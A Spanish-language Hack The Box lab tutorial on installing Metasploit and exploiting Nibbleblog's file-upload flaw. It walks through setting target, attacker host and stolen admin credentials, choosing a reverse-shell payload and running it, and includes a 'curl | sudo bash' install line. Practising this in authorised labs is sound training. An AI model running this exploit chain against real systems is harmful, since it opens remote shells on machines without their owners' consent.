 # Metasploit Framework - Explotación de Nibbleblog

### Exención de responsabilidad

Este contenido tiene fines educativos y está diseñado para ser utilizado únicamente en entornos controlados y con permisos explícitos.
Hack The Box y otras plataformas similares proporcionan entornos de práctica legalmente autorizados, y se debe asegurar que se cuenta con los permisos adecuados antes de realizar cualquier prueba de penetración o hacking ético.

El autor de esta publicación no se responsabiliza por el uso indebido de las técnicas y herramientas descritas fuera de los entornos legales y éticos correspondientes.

---

## Índice

1. [Usos y consideraciones de Metasploit Framework](#usos-y-consideraciones-de-metasploit-framework)
2. [Descargar Metasploit Framework](#descargar-metasploit-framework)
3. [Uso de Metasploit Framework](#uso-de-metasploit-framework)


## Usos y consideraciones de Metasploit Framework

Metasploit es una herramienta de código abierto utilizada por profesionales de seguridad para probar la robustez de las redes y sistemas mediante la explotación de vulnerabilidades conocidas.

---

### 1. Descargar Metasploit Framework

#### A) Web oficial

https://www.metasploit.com/

	- Acude a la página oficial de la herramienta y descarga la versión 'Open source'.

#### B) En Linux usando terminal 

##### B.1. Instalar dependencias

Primero, asegúrate de tener las dependencias necesarias.
Si estás en Ubuntu/Debian puedes instalar las dependencias con:

```bash
sudo apt update
sudo apt install curl wget git build-essential libssl-dev libpq-dev libreadline-dev libpcap-dev libsqlite3-dev
```

##### B.2. Instalar Metasploit Framework

Puedes instalar Metasploit Framework usando el script de instalación proporcionado por el proyecto rapid7 o desde los repositorios oficiales.

### Método 1: Usar el script de instalación (recomendado) 

```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-framework/master/msfvenom-installer.sh | sudo bash
```

### Método 2: Usar apt (si está disponible en los repositorios)

```bash 
sudo apt install metasploit-framework
```

### 2. Uso de Metasploit Framework

#### 2.1. Ejecutar Metasploit Framework

```bash
msfconsole
```

Esto debe de abrir la consola interactiva de Metasploit (msfconsole), donde puedes empezar a usar la herramienta.

![Captura de pantalla](herramientas/metaesploit/imagenes/msfconsole.png)

#### 2.2. Buscar módulos de exploits

Para buscar exploit disponibles usamos el comando 'search' seguido de la vulnerabilidad/servicio a explotar. Vemos dos ejemplos para Wordpress y Nibbleblog

```bash
search Wordpress
```

```bash
search Nibbleblog
```

![Captura de pantalla](herramientas/metaesploit/imagenes/search.png)

#### 2.3. Seleccionar un exploit

Para usar un exploit específico, primero debes seleccionarlo con el comando `use`
 
```bash
use 0
```

```bash
use exploit/multi/http/nibbleblog_file_upload
```
Dos formas válidas de seleccionar un exploit (el nº 0 hace referencia al índice del exploit, miestras que la segunda forma es nombrando la ruta absoluta del exploit)

![Captura de pantalla](herramientas/metaesploit/imagenes/use.png)

#### 2.4. Ver los parámetros del exploit

Cuando seleccionas un exploit, tienes que ver los parámetros necesarios (como la dirección IP de la víctima, puertos, etc.) con `show options`:

##### 2.4.1 Parámetros del Exploit

- **RHOST**: Dirección IP del objetivo.
- **LHOST**: Dirección IP de la máquina atacante (tu propia máquina).
- **LPORT**: Puerto de escucha para la conexión reversa.
- **targeturi**: Especifica la ruta del servicio web que vamos a explotar, en este caso, `nibbleblog` (por defecto o nombre de directorio).


```bash
show options
```

![Captura de pantalla](herramientas/metaesploit/imagenes/show_options.png)
	
#### 2.5. Configurar los parámetros del exploit

Configuramos cada parametro que este marcado como 'yes' con el comando `set`

Establecemos la opción 'rhosts' como la dirección IP de destino (IP víctima)

```bash
set RHOST 10.129.126.4
```

Establecemos la opción 'lhosts' como la dirección IP atacante (en HTB usar la IP tun0 propia de la VPN)

```bash
set LHOST 10.10.12.4
```

Establecemos la opción 'username' con el nombre de usuario de la víctima (obviamente requiere de su conocimiento, bien por ser proporcionada o por extracción) 

```bash
set username admin
```

Establecemos la opción 'password' con la contraseña de usuario de la víctima (obviamente requiere de su conocimiento, bien por ser proporcionada o por extracción) 

```bash
set password <contraseña_de_usuario>
```

[!] Cambiar <contraseña_de_usuario> por la correcta de Nibbleblog (para este caso)

Establecemos la opción 'targeturi' con el nombre del servicio a explotar

```bash
set targeturi nibbleblog
```

Una vez, configuradas las distintas opciones señaladas como necesarias (como 'yes') podemos comprobar los cambios usando de nuevo `show options`

#### 2.6. Configurar parámetros de payload (o carga útil)

Cada exploit requiere de un payload, para ver los disponibles podemos usar el comando `show payloads`
 
```bash
show payloads
```

![Captura de pantalla](herramientas/metaesploit/imagenes/show_payloads.png)

#### 2.7. Seleccionar un payload

Para usar un payload específico, primero debes seleccionarlo con el comando `use`
 
```bash
use payload 4
```

```bash
use payload generic/shell_reverse_tcp
```
Dos formas válidas de seleccionar un payload (el nº 4 hace referencia al índice del payload, miestras que la segunda forma es nombrando la ruta absoluta del exploit)

Puedes ver la información sobre el payload con el comando `info`

```bash
info generic/shell_reverse_tcp
```

[!] Importante revisar de nuevo `show options` para verificar la configuración

#### 2.8. Ejecutar exploit

Para ejecutar el exploit seleccionado y configurado podemos usar los comandos `run` o `exploit`
 
```bash
run
```

```bash
exploit
```

Despues de ejecutar el exploit, deberíamos de obtener (para este caso) una shell reversa. A partir de aquí sería continuar con la explotación en el grado que se requiera (por ejemplo elevando privilegios)

## Consideraciones Éticas y Legales

Esta documentación se proporciona **exclusivamente con fines educativos**.
Las técnicas y procedimientos descritos están diseñados para ser aplicados en **entornos controlados**, como laboratorios personales o plataformas de formación como Hack The Box.

⚠ **IMPORTANTE:**  
El uso indebido de estos conocimientos en sistemas sin autorización constituye una violación de la ley y puede acarrear consecuencias legales graves.  
Antes de realizar cualquier prueba de seguridad, asegúrate de contar con el **consentimiento expreso** del propietario del sistema.

### Asegúrate de:
- Realizar pruebas solo en máquinas y entornos de **pruebas de penetración legal**.
- Nunca realizar pruebas en sistemas sin tener **permiso explícito** para hacerlo.

Para más información sobre prácticas de hacking ético, puedes revisar los términos y condiciones de Hack The Box en:  
🔗 [https://www.hackthebox.com/terms](https://www.hackthebox.com/terms)  
